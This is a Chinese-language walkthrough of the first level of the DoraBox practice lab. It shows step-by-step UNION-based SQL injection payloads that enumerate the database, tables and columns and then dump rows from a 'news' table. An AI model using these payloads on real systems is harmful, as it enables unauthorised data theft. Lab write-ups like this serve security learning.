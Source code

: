# DoraBox

## Sql注入

### 第一关，sql注入数字型


源码中id是htmlspecialchars过滤的，过滤是过滤单引号，双引号，尖括号和&的，但是过滤的是html实体并不会影响我们的操作

![image-20220226143949141](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261439284.png)

#### 1、测试参数位置

```
-1 union select 1,2,3
```



### ![image-20220226144057400](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261440461.png)

#### 2、爆数据库：

```
-1 union select 1,user(),database()
```

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261441408.png)

#### 3、爆表：

```
-1 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```



#### 4、爆列名：

```
-1 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='news'
```



#### 5、爆值：

```
-1 UNION SELECT 1,2,concat_ws('|',id,title,content) from news
```

![image-20220226144410955](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261444010.png)
